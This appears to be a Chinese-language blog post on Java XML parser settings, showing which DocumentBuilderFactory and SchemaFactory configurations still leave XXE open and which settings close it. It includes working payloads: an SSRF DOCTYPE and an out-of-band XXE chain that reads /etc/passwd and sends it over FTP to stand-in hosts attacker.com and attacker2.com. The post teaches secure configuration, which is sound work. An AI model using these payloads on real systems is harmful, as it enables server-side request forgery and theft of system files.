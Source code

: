 ```yaml
---
title: "Java XML 解析器配置问题"
author: ["4shen0ne"]
tags: ["java"]
draft: false
---
```


默认情况下，Java 的 XML 解析库都会提供 DTD 处理功能和外部实体功能，这些特性通常
会导致 XXE 漏洞。开发者可以通过禁用这些特性来避免安全问题，但在某些情况下开发者的
配置可能并不完善，不能完全避免所有攻击


## javax.xml.parsers.DocumentBuilderFactory {#javax-dot-xml-dot-parsers-dot-documentbuilderfactory}

DocumentBuilderFactory 类的默认配置如下：

```java
File fXmlFile = new File("Test.xml");
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(fXmlFile);
```

开发者可能使用以下代码禁用外部实体：

```java
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
// OR
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false)
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

由于代码还是会处理 DTD, 可以通过以下 payload 进行 SSRF 攻击：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE myPublicEntity PUBLIC '-//W3C//DTD HTML 4.01//EN'
'http://someIP:4444/IMMUNITY' >
```

要防御 SSRF 攻击需要以下设置：

```java
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
// or disable the DTDs completely
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

另外还要注意一个极具误导性的配置，该配置貌似只能防御 DOS：

```text
dbf.setAttribute(XMLConstants.FEATURE_SECURE_PROCESSING, true);
```


## javax.xml.validation.SchemaFactory {#javax-dot-xml-dot-validation-dot-schemafactory}

SchemaFactory 类通常会这样使用（存在 XXE）：

```java
String filepath = "Test_Schema.xml";
String xmlSchema = new String(Files.readAllBytes(Paths.get(filepath)));

SchemaFactory factory = SchemaFactory.newInstance("http://www.w3.org/2001/XMLSchema");
Schema schema = factory.newSchema(new StreamSource(new StringReader(xmlSchema)));
```

通过以下配置禁用外部实体引用：

```java
factory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "");
factory.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");
```

假如 ACCESS_EXTERNAL_DTD 属性设置成了 file（只允许使用 file 协议），那么 ftp 协
议也依旧能正常使用，因此可以通过以下步骤读取数据：

1.  启动一个 ftp 服务器，在上面放一个恶意文件 evil_ftp.dtd
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % param1 "<!ENTITY send SYSTEM 'file://attacker2.com:5555/%file;'>">
    %param1;
    ```

2.  启动另一个 ftp 服务器用来接收数据

3.  向目标发送恶意 payload, 然后在 2 的 ftp 服务器中可以看到数据
    ```xml
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE data [
      <!ENTITY % dtd SYSTEM  "file://attacker.com:5555/evil_ftp.dtd">
      %dtd;
    ]>
    <data>&send;</data>
    ```

注意：虽然上面的 payload 使用了 5555 端口，但实际请求的依然是默认的 ftp 端口(21)
